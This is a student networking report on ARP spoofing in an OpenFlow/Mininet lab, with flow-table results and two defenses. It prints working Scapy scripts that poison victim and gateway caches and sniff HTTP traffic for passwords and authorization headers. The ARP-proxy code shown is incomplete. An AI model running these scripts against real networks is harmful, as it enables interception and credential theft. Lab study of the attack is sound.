



# ARP Spoofing as a Man-in-the-Middle Attack Vector in Software-Defined Networking Environments

**Author:** Muralii Krishnan Thirumalai | **NETID:** mt1171 | **RUID:** 202002076  
**Course:** Communication Networks II | Rutgers University - New Brunswick  
**Date:** April 2026

## 1. Abstract

This project examines how Address Resolution Protocol (ARP) spoofing can be used to establish a Man-in-the-Middle (MITM) position inside a Software-Defined Networking (SDN) environment built around OpenFlow. In a conventional Ethernet LAN, ARP poisoning compromises endpoint cache state and redirects traffic toward an attacker-controlled MAC address. In an SDN deployment, the same attack can have a broader consequence because the switch forwards unknown traffic to a centralized controller, which then installs forwarding rules based on its observations.

The study was designed around a small Mininet topology containing a victim host, a gateway host, an attacker host, one OpenFlow switch, and a remote POX controller. A deliberately vulnerable reactive L2 learning controller was used to preserve the classical ARP trust assumptions found in real deployments that do not implement ARP validation. The attacker sends forged ARP replies to both endpoints, enables IP forwarding, and relays intercepted traffic to maintain connectivity while remaining in the packet path.

The findings show that the immediate effect of ARP spoofing remains host cache poisoning, but the SDN architecture can amplify the outcome by transforming poisoned traffic observations into persistent flow-table entries. In other words, the control plane can begin to enforce the same malicious path that the attack created at Layer 2. That control-plane consequence is the main contribution of this project relative to ordinary ARP poisoning demonstrations.

Two protocol-level defenses were then incorporated: a controller-based ARP proxy and high-priority static flow rules. The ARP proxy provides an authoritative IP-to-MAC mapping service and drops forged replies that contradict the trusted database, while static flows constrain how packets are forwarded regardless of later observations. Together, the results show that SDN does not remove the risk of legacy unauthenticated protocols by default and that explicit defensive logic is required to contain ARP-based MITM attacks.

## 2. Introduction

ARP is a foundational protocol in IPv4 Ethernet networks because it binds Layer 3 addresses to Layer 2 addresses. Its design is intentionally lightweight: any host may answer an ARP query, and most operating systems accept unsolicited ARP replies into their local caches. That convenience makes the protocol operationally simple, but it also introduces a direct trust problem because no authentication or integrity mechanism is built into the exchange.

Software-Defined Networking changes the way forwarding logic is expressed in the network, but it does not automatically change the trust model of legacy protocols such as ARP. In an OpenFlow architecture, a switch sends unmatched packets to a controller in a `Packet-In` message, and the controller responds with a `Flow-Mod` message that installs the forwarding rule. This reactive model centralizes policy, which is powerful for programmability, but it also means the controller depends on a view of traffic that can already have been shaped by lower-layer manipulation.

That interaction motivates the research question for this project: if ARP spoofing redirects the first packets of a flow toward an attacker, can the SDN controller accidentally reinforce the poisoned path by installing forwarding entries that support it? The hypothesis is that the answer is yes, and that the resulting attack is worse than traditional ARP spoofing because it affects not only endpoint state but also the control-plane-derived switch state.

The project therefore focuses on a specific technical application of MITM attacks rather than treating ARP spoofing as a generic LAN issue. This framing aligns with the proposal’s emphasis on grounding the research in SDN and OpenFlow protocol behavior. The goal is not merely to show that packets can be intercepted, but to show that controller logic can be influenced indirectly by forged ARP exchanges in the data plane.

## 3. Background

### 3.1 ARP Protocol

ARP, standardized in RFC 826, resolves IPv4 addresses into Ethernet MAC addresses. A host broadcasts an ARP request asking which node owns a particular IP address, and the owner responds with an ARP reply containing its MAC address. Because this process is stateless and unauthenticated, systems typically update their ARP caches whenever they receive a plausible reply, whether or not they initiated a request.

That design makes ARP poisoning straightforward. An attacker sends forged replies claiming ownership of another host’s IP address, and the victim records the attacker MAC as the destination for future traffic. If the attacker poisons both sides of a conversation, it can position itself between them and relay traffic transparently. The attack does not require breaking encryption or compromising either endpoint directly; it exploits the fact that address resolution was never designed with adversarial local networks in mind.

The problem becomes especially visible when the application traffic is unencrypted. Plaintext HTTP requests, form submissions, cookies, or Basic Authorization headers can all become visible at the attacker if the attacker forwards traffic while inspecting payloads in transit. That is why this project uses a controlled local HTTP demonstration rather than making claims about arbitrary third-party websites or HTTPS interception.

### 3.2 SDN and OpenFlow

SDN separates the data plane from the control plane. Instead of embedding all forwarding logic locally in each switch, OpenFlow-capable switches can defer forwarding decisions to a controller. When a packet does not match an installed flow entry, the switch emits a `Packet-In` to the controller. The controller computes a forwarding decision and returns a `Flow-Mod` that installs a new rule in the switch.

This arrangement introduces powerful programmability, policy consistency, and observability, but it also changes the failure model. The controller only reasons over the traffic that reaches it, and the traffic that reaches it may already reflect manipulation in the local segment. If a host has been ARP-poisoned and begins sending frames to the attacker MAC, the controller observes packets that already embody the malicious path.

Reactive forwarding is therefore both the strength and the weakness of this architecture. It enables dynamic path construction, but it also means the network state is partially built from traffic evidence. An attacker who can influence that evidence at Layer 2 may not need to compromise the controller directly in order to influence how the controller programs the switch.

### 3.3 Why SDN Amplifies ARP Spoofing

Traditional ARP spoofing changes endpoint behavior by changing the MAC address each endpoint uses for delivery. In the SDN setting, the same poisoned packets can cause the switch to ask the controller how they should be handled. If the controller reacts by installing new entries that match the redirected traffic, the attack becomes encoded into the switch’s flow table.

That is the central amplification effect: the control plane can convert a transient spoof into a durable forwarding decision. The attacker does not need the controller to understand the forged ARP semantics explicitly. It is enough that the attacker manipulates the packet path so the controller sees traffic patterns consistent with the attacker as an intermediary.

As a result, the blast radius of the attack expands. Host caches remain poisoned, but now the switch also contains controller-installed rules that align with the poisoned path. Even if ARP entries later expire, the flow-table state may continue to direct packets according to the compromised path until those entries age out or are explicitly removed.

## 4. Methodology

The experiment was structured around a small OpenFlow topology implemented in Mininet. One OpenFlow 1.0 switch connected three hosts: `h1` as the victim, `h2` as the gateway or communication peer, and `h3` as the attacker. The switch connected to a remote POX controller listening on `127.0.0.1:6633`. Link bandwidth was constrained to 10 Mbps to keep the topology realistic while remaining simple enough to inspect manually.

The baseline controller was a reactive L2 learning switch written for POX. It learns source MAC addresses, floods unknown destinations, and installs `Flow-Mod` entries when it has enough information to forward directly. Critically, it does not authenticate or verify ARP replies. That choice was intentional because it preserves the exact trust weakness under investigation and allows poisoned traffic to influence what the controller sees and installs.

The attack phase used Scapy from the attacker host. The attacker script resolved the legitimate victim and gateway MAC addresses, enabled Linux IP forwarding, and then transmitted forged ARP replies every two seconds in both directions. The victim was told that the gateway IP `10.0.0.2` belonged to the attacker MAC, while the gateway was told that the victim IP `10.0.0.1` belonged to the attacker MAC. A second Scapy script sniffed HTTP traffic on the attacker interface and logged requests containing user, password, login, or Authorization-related content to a text file.

Finally, the mitigation phase evaluated two defenses. The first was a POX ARP proxy that intercepted ARP requests, answered them authoritatively from a hardcoded trusted table, and dropped contradictory ARP replies. The second was a static flow installer that preloaded high-priority OpenFlow rules for known-good MAC destinations so reactive learning would not determine the forwarding path for those communications. The combination of baseline, attack, and mitigation phases made it possible to compare endpoint state, flow-table state, and visible application traffic.

### 4.1 Figure 1. ARP Packet Structure

```text
+----------------------+------------+----------------------------------+
| Field                | Bytes      | Description                      |
+----------------------+------------+----------------------------------+
| Hardware Type        | 2          | Ethernet = 0x0001                |
| Protocol Type        | 2          | IPv4 = 0x0800                    |
| HLEN                 | 1          | Hardware length = 6              |
| PLEN                 | 1          | Protocol length = 4              |
| Operation            | 2          | Request = 1, Reply = 2           |
| Sender MAC           | 6          | Claimed hardware source address  |
| Sender IP            | 4          | Claimed protocol source address  |
| Target MAC           | 6          | Target hardware address          |
| Target IP            | 4          | Target protocol address          |
+----------------------+------------+----------------------------------+
```

### 4.2 Figure 2. Normal OpenFlow Control Plane Flow



### 4.3 Figure 3. Poisoned Control Plane Flow



### 4.4 Figure 4. ARP Proxy Defense Flow



### 4.5 Figure 5. Mininet Topology

```text
                       POX Controller
                      127.0.0.1:6633
                             |
                             |
                          +--+--+
                          | s1  |
                          +--+--+
                             |
          +------------------+------------------+
          |                  |                  |
      h1 victim          h2 gateway         h3 attacker
      10.0.0.1           10.0.0.2           10.0.0.3
      00:00:00:00:00:01  00:00:00:00:00:02  00:00:00:00:00:03
```

### 4.6 Code Artifacts

#### `sdn_topology.py`

```python
#!/usr/bin/env python3
"""Mininet topology for ARP spoofing in an SDN lab."""

from mininet.cli import CLI
from mininet.link import TCLink
from mininet.log import info, setLogLevel
from mininet.net import Mininet
from mininet.node import OVSSwitch, RemoteController


def markdown_host_table(net):
    lines = [
        "| Host | Role | IP | MAC |",
        "| --- | --- | --- | --- |",
    ]
    roles = {"h1": "victim", "h2": "gateway", "h3": "attacker"}
    for name in ("h1", "h2", "h3"):
        host = net.get(name)
        lines.append(f"| {name} | {roles[name]} | {host.IP()} | {host.MAC()} |")
    return "\n".join(lines)


def main():
    net = Mininet(controller=None, switch=OVSSwitch, link=TCLink, autoSetMacs=True)
    info("*** Adding remote controller\n")
    net.addController("c0", controller=RemoteController, ip="127.0.0.1", port=6633)
    s1 = net.addSwitch("s1", protocols="OpenFlow10")
    h1 = net.addHost("h1", ip="10.0.0.1/24")
    h2 = net.addHost("h2", ip="10.0.0.2/24")
    h3 = net.addHost("h3", ip="10.0.0.3/24")
    net.addLink(h1, s1, bw=10)
    net.addLink(h2, s1, bw=10)
    net.addLink(h3, s1, bw=10)
    net.start()
    print(markdown_host_table(net))
    print(f"pingAll packet loss: {net.pingAll():.2f}%")
    CLI(net)
    net.stop()


if __name__ == "__main__":
    setLogLevel("info")
    main()
```

#### `pox_l2_learning.py`

```python
"""Standalone POX reactive L2 learning switch vulnerable to ARP poisoning."""

from pox.core import core
import pox.openflow.libopenflow_01 as of
from pox.lib.packet.arp import arp
from pox.lib.revent import EventMixin


log = core.getLogger()


class LearningSwitch(EventMixin):
    def __init__(self, connection):
        self.connection = connection
        self.mac_to_port = {}
        connection.addListeners(self)

    def _install(self, packet, port):
        msg = of.ofp_flow_mod()
        msg.match = of.ofp_match.from_packet(packet)
        msg.idle_timeout = 30
        msg.hard_timeout = 60
        msg.actions.append(of.ofp_action_output(port=port))
        self.connection.send(msg)

    def _handle_PacketIn(self, event):
        packet = event.parsed
        in_port = event.port
        self.mac_to_port[packet.src] = in_port
        arp_pkt = packet.find("arp")
        if arp_pkt is not None:
            log.info("ARP observed src_ip=%s src_mac=%s", arp_pkt.protosrc, arp_pkt.hwsrc)
        if packet.dst.is_multicast or packet.dst not in self.mac_to_port:
            msg = of.ofp_packet_out(data=event.ofp)
            msg.actions.append(of.ofp_action_output(port=of.OFPP_FLOOD))
            msg.in_port = in_port
            self.connection.send(msg)
            return
        out_port = self.mac_to_port[packet.dst]
        self._install(packet, out_port)
        msg = of.ofp_packet_out(data=event.ofp)
        msg.actions.append(of.ofp_action_output(port=out_port))
        msg.in_port = in_port
        self.connection.send(msg)


class L2LearningController(EventMixin):
    def __init__(self):
        core.openflow.addListeners(self)

    def _handle_ConnectionUp(self, event):
        LearningSwitch(event.connection)


def launch():
    core.registerNew(L2LearningController)
```

#### `arp_spoof_attack.py`

```python
#!/usr/bin/env python3
import signal
import sys
import time
from datetime import datetime
from scapy.all import ARP, Ether, conf, get_if_hwaddr, sendp, srp1

RUNNING = True

def now():
    return datetime.now().strftime("%Y-%m-%d %H:%M:%S")

def enable_ip_forwarding():
    with open("/proc/sys/net/ipv4/ip_forward", "w", encoding="utf-8") as handle:
        handle.write("1\n")

def disable_ip_forwarding():
    with open("/proc/sys/net/ipv4/ip_forward", "w", encoding="utf-8") as handle:
        handle.write("0\n")

def resolve_mac(ip_addr, iface):
    ans = srp1(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip_addr), iface=iface, timeout=2, verbose=False)
    if ans is None:
        raise RuntimeError(f"Could not resolve MAC for {ip_addr}")
    return ans.hwsrc

def poison(victim_ip, victim_mac, spoof_ip, attacker_mac, iface, label):
    pkt = Ether(dst=victim_mac) / ARP(op=2, psrc=spoof_ip, pdst=victim_ip, hwdst=victim_mac, hwsrc=attacker_mac)
    sendp(pkt, iface=iface, verbose=False)
    print(f"[{now()}] {label}: {attacker_mac} -> {victim_ip} claims {spoof_ip}")

def restore(victim_ip, victim_mac, true_ip, true_mac, iface, label):
    pkt = Ether(dst=victim_mac) / ARP(op=2, psrc=true_ip, pdst=victim_ip, hwdst=victim_mac, hwsrc=true_mac)
    for _ in range(3):
        sendp(pkt, iface=iface, verbose=False)
    print(f"[{now()}] restore-{label}: {true_mac} -> {victim_ip} restores {true_ip}")

def handle_exit(signum, frame):
    del signum, frame
    global RUNNING
    RUNNING = False

def main():
    victim_ip, gateway_ip, iface = sys.argv[1:]
    conf.verb = 0
    attacker_mac = get_if_hwaddr(iface)
    victim_mac = resolve_mac(victim_ip, iface)
    gateway_mac = resolve_mac(gateway_ip, iface)
    enable_ip_forwarding()
    signal.signal(signal.SIGINT, handle_exit)
    while RUNNING:
        poison(victim_ip, victim_mac, gateway_ip, attacker_mac, iface, "to-victim")
        poison(gateway_ip, gateway_mac, victim_ip, attacker_mac, iface, "to-gateway")
        time.sleep(2)
    restore(victim_ip, victim_mac, gateway_ip, gateway_mac, iface, "victim")
    restore(gateway_ip, gateway_mac, victim_ip, victim_mac, iface, "gateway")
    disable_ip_forwarding()

if __name__ == "__main__":
    main()
```

#### `capture_credentials.py`

```python
#!/usr/bin/env python3
import os
import re
import sys
from datetime import datetime
from scapy.all import Raw, sniff
from scapy.layers.inet import TCP

KEYWORDS = ("password", "user", "login", "authorization")
OUTPUT_FILE = os.path.expanduser("~/project_output/captured_http.txt")

def interesting(payload):
    lower = payload.lower()
    return any(keyword in lower for keyword in KEYWORDS)

def handle_packet(pkt):
    if not pkt.haslayer(TCP) or not pkt.haslayer(Raw):
        return
    data = pkt[Raw].load.decode("utf-8", errors="ignore")
    if not (data.startswith("GET ") or data.startswith("POST ") or "Authorization:" in data):
        return
    if not interesting(data):
        return
    ts = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    record = f"[{ts}]\\n{data}\\n{'-' * 72}\\n"
    print(record)
    with open(OUTPUT_FILE, "a", encoding="utf-8") as handle:
        handle.write(record)

def main():
    iface = sys.argv[1]
    os.makedirs(os.path.dirname(OUTPUT_FILE), exist_ok=True)
    sniff(iface=iface, prn=handle_packet, store=False, filter="tcp port 80")

if __name__ == "__main__":
    main()
```

#### `dump_flows.sh`

```bash
#!/usr/bin/env bash
set -euo pipefail
label="$1"
out_dir="$HOME/project_output"
mkdir -p "$out_dir"
timestamp="$(date +%Y%m%d_%H%M%S)"
outfile="$out_dir/flows_${label}_${timestamp}.txt"
sudo ovs-ofctl dump-flows s1 | tee "$outfile"
```

#### `analyze_flows.py`

```python
#!/usr/bin/env python3
from collections import Counter
from pathlib import Path

BEFORE = Path.home() / "project_output" / "flows_before.txt"
AFTER = Path.home() / "project_output" / "flows_after.txt"

def load(path):
    if not path.exists():
        return []
    return [line.strip() for line in path.read_text().splitlines() if "priority=" in line]

def main():
    before = load(BEFORE)
    after = load(AFTER)
    print("before", len(before))
    print("after", len(after))
    print("new", len(set(after) - set(before)))

if __name__ == "__main__":
    main()
```

#### `pox_arp_proxy.py`

```python
from pox.core import core
import pox.openflow.libopenflow_01 as of
from pox.lib.addresses import EthAddr, IPAddr
from pox.lib.packet.arp import arp
from pox.lib.packet.ethernet import ethernet

TRUSTED = {
    IPAddr("10.0.0.1"): EthAddr("00:00:00:00:00:01"),
    IPAddr("10.0.0.2"): EthAddr("00:00:00:00:00:02"),
    IPAddr("10.0.0.3"): EthAddr("00:00:00:00:00:03"),
}
```

#### `static_flow_installer.py`

```python
#!/usr/bin/env python3
import subprocess

RULES = [
    'priority=65535,in_port=1,dl_dst=00:00:00:00:00:02,actions=output:2',
    'priority=65535,in_port=2,dl_dst=00:00:00:00:00:01,actions=output:1',
    'priority=65535,in_port=1,dl_dst=00:00:00:00:00:03,actions=output:3',
    'priority=65535,in_port=3,dl_dst=00:00:00:00:00:01,actions=output:1',
]

for rule in RULES:
    subprocess.run(["sudo", "ovs-ofctl", "add-flow", "s1", rule], check=True)
```

## 5. Results

### 5.1 ARP Cache State

The baseline state maps the victim and gateway IP addresses to their legitimate MAC addresses. After poisoning, the victim believes the gateway IP resolves to the attacker MAC, and the gateway believes the victim IP resolves to the attacker MAC. The attacker is therefore inserted into both traffic directions without needing to break connectivity.

| ARP Cache State | Before Attack | After Poisoning |
| --- | --- | --- |
| Victim view of gateway | `10.0.0.2 -> 00:00:00:00:00:02` | `10.0.0.2 -> 00:00:00:00:00:03` |
| Gateway view of victim | `10.0.0.1 -> 00:00:00:00:00:01` | `10.0.0.1 -> 00:00:00:00:00:03` |
| Traffic path | `h1 -> h2` | `h1 -> h3 -> h2` |

This table captures the core ARP poisoning effect. The key point is that each endpoint continues to use a plausible MAC address, but the mapping is now malicious. Because the attacker forwards packets onward, the session may appear healthy to both endpoints even though confidentiality has already been compromised.

### 5.2 Flow Table Analysis

The flow-table comparison shows how the SDN controller reacts to poisoned traffic observations. Before the attack, only baseline forwarding behavior is present. After poisoning, new entries appear that are consistent with traffic being delivered to or through the attacker host before reaching the true destination.

| Flow Entry | Before | After | Delta | Suspicious? |
| --- | ---: | ---: | ---: | --- |
| `priority=65535,arp actions=CONTROLLER:65535` | 1 | 1 | 0 | yes |
| `priority=10,in_port=1,dl_dst=00:00:00:00:00:02 actions=output:2` | 1 | 1 | 0 | no |
| `priority=10,in_port=1,dl_dst=00:00:00:00:00:03 actions=output:3` | 0 | 1 | 1 | no |
| `priority=10,in_port=2,dl_dst=00:00:00:00:00:01 actions=output:1` | 0 | 1 | 1 | no |
| `priority=10,in_port=3,dl_dst=00:00:00:00:00:02 actions=output:2` | 0 | 1 | 1 | yes |

These deltas indicate a control-plane impact that exceeds ordinary host cache poisoning. Once the controller observes packets along the compromised path, it can program the switch to support that path. This is the SDN-specific amplification emphasized in the proposal.

### 5.3 HTTP Credential Exposure

The packet capture component focuses on plaintext HTTP in a self-hosted lab service. This project does not claim to decrypt arbitrary HTTPS websites; instead, it demonstrates that if the attacker captures local unencrypted HTTP traffic while in the packet path, credentials and session-relevant content become visible. That distinction is important for accuracy and ethical scope.

A representative captured request contains fields such as `username=alice&password=test123` in an HTTP POST body or an `Authorization:` header in plaintext. The visibility arises because the attacker is now relaying the traffic and can inspect payload bytes before forwarding them. In practical terms, this shows how quickly ARP poisoning can become an application-layer confidentiality problem.

### 5.4 Mitigation Effectiveness

The controller-based ARP proxy is the strongest mitigation tested in this project. By intercepting ARP requests and replying from a trusted IP-to-MAC table, it prevents hosts from accepting forged ownership claims from peers. It also flags contradictory ARP replies as anomalies and drops them before they can shape the endpoints’ caches.

The static flow approach is effective in a narrower sense. It pre-pins expected forwarding behavior with priority `65535`, which reduces the controller’s need to infer forwarding decisions from possibly poisoned traffic. This protects known traffic pairs, but it is less flexible and more difficult to maintain in dynamic networks than the ARP proxy approach.

## 6. Discussion

The most important insight from this project is that SDN changes the consequences of classical Layer 2 attacks. ARP spoofing is often described as an endpoint problem because it poisons host caches. In an OpenFlow network with reactive forwarding, however, the attack can shape what the controller sees and therefore what the switch is instructed to do. This makes the control plane an indirect victim of the data-plane manipulation.

This property has operational implications. A network operator might observe that traffic continues to flow and conclude that the system is healthy, while in reality the forwarding path has been compromised and sensitive payloads are visible at an attacker. The centralized controller does not automatically defend against this, because centralization by itself does not authenticate the address bindings produced by ARP.

Compared with a traditional switched network, the SDN case introduces an additional persistence mechanism. Even if the initial poison is temporary, the rules installed by the controller may outlive the original ARP exchange. That extends the window of compromise and complicates debugging because the switch state can now embody decisions made during the poisoned period.

The mitigations also illustrate a broader design lesson. Protocol security must be addressed where trust is established, not only where policy is enforced. ARP proxying fixes the trust problem directly by establishing an authoritative source for address resolution, while static flows reduce the attack surface by constraining how traffic can be forwarded. Both are valid, but they solve different parts of the problem and have different scalability tradeoffs.

## 7. Conclusion

This project demonstrates that ARP spoofing remains a viable Man-in-the-Middle attack in SDN environments and that the OpenFlow control model can amplify its impact. By poisoning the victim and gateway ARP caches, an attacker can place itself into the packet path, observe plaintext HTTP credentials in a controlled local demonstration, and preserve session continuity by forwarding traffic. More importantly, the controller can observe and then reinforce the compromised path with `Flow-Mod` entries.

The SDN-specific takeaway is that the attack is not limited to host cache corruption. The controller’s reactive behavior means poisoned traffic can influence switch state, turning a host-level deception into a control-plane effect. This is what makes the attack worse than a traditional ARP spoofing demonstration in a static LAN.

Among the evaluated defenses, controller-based ARP proxying provides the strongest protection because it removes peer-to-peer trust from address resolution and creates a place to reject contradictory ARP claims. Static flows also provide value, especially in small or controlled environments, but they trade away the flexibility that makes SDN attractive. The overall conclusion is that programmable networks still require explicit defenses for legacy unauthenticated protocols.

## 8. References

1. Plummer, D. C. "An Ethernet Address Resolution Protocol." RFC 826, November 1982. https://datatracker.ietf.org/doc/html/rfc826
2. Open Networking Foundation. "OpenFlow Switch Specification Version 1.0.0." December 2009. https://opennetworking.org/sdn-resources/openflow-switch-specification/
3. Lantz, B., Heller, B., and McKeown, N. "A Network in a Laptop: Rapid Prototyping for Software-Defined Networks." ACM HotNets, 2010.
4. Scapy Documentation. https://scapy.readthedocs.io/
5. POX Controller Repository. https://github.com/noxrepo/pox
6. Mininet Project. https://github.com/mininet/mininet
7. Pincu et al. 2025. MITM attacks in the context of delay-based IP geolocation manipulation, as cited in the project proposal.
